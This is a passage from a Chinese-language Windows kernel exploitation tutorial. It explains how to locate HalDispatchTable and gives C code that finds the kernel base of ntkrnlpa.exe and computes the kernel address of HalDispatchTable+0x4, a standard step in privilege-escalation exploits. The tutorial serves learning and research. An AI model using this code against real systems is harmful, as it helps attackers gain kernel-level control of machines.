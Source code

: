** （四）寻找HalDispatchTable地址**

对于Windows系统的内核态而言，可划分为以下：

（1）硬件抽象层（HardwareAbstraction Layer -&gt; Hal)

（2）内核（Kernel）

（3）运行体（Executive）

（4）窗体图形子系统（WindowsGraphicsSubsystem）

而HalDispatch正是与硬件抽象层有关，因此我们需从系统加载的内核程序中进行导出，此处以加载内核程序ntkrnlpa.exe为例，通过EnumDeviceDrivers函数，获取在内核空间中ntkrnlpa.exe运行时的基址，。

```
#include&lt;Psapi.h&gt;
LPVOID NtkrnlpaBase()
`{`
    LPVOID lpImageBase[1024];
    DWORD lpcbNeeded;
   CHAR lpfileName[1024];
    //Retrieves the load address for each device driver in the system
    EnumDeviceDrivers(lpImageBase, sizeof(lpImageBase), &amp;lpcbNeeded);

    for (int i = 0; i &lt; 1024; i++)
    `{`
        //Retrieves the base name of the specified device driver
        GetDeviceDriverBaseNameA(lpImageBase[i], lpfileName, 48);
        if (!strcmp(lpfileName, "ntkrnlpa.exe"))
        `{`
            printf("[+]success to get %s\n", lpfileName);
            return lpImageBase[i];
        `}`
    `}`
    return NULL;
`}`
```

然后在用户态，加载ntkrnlpa.exe程序，并搜索HalDispatchTable表的导出地址，并用用户态中的HalDispatchTable导出地址减去用户态中加载ntkrnlpa.exe的模块基址，就可以获得HalDispatchTable表相对于模块基址的偏移量，最后由内核空间中ntkrnlpa.exe基址加上偏移量，得到HalDispatchTable在内核中的地址，并加上0x4偏移量进行返回。

```
DWORD32 GetHalOffset_4()
`{`
    // 获取ntkrnlpa.exe运行时基址
    PVOID pNtkrnlpaBase = NtkrnlpaBase();
    printf("[+]ntkrnlpa base address is 0x%p\n", pNtkrnlpaBase);

    // 获取用户态加载ntkrnlpa.exe的地址
    HMODULE hUserSpaceBase = LoadLibrary("ntkrnlpa.exe");

    // 获取用户态中HalDispatchTable的地址
    PVOID pUserSpaceAddress = GetProcAddress(hUserSpaceBase, "HalDispatchTable");

    // 由ntkrnlpa.exe运行时基址加上HalDispatchTable偏移量，得到HalDispatchTable在内核空间中的地址，加上0x4偏移量
    DWORD32 hal_4 = (DWORD32)pNtkrnlpaBase + ((DWORD32)pUserSpaceAddress - (DWORD32)hUserSpaceBase) + 0x4;
    printf("[+]HalDispatchTable+0x4 is 0x%p\n", hal_4);
    return (DWORD32)hal_4;
`}`
```
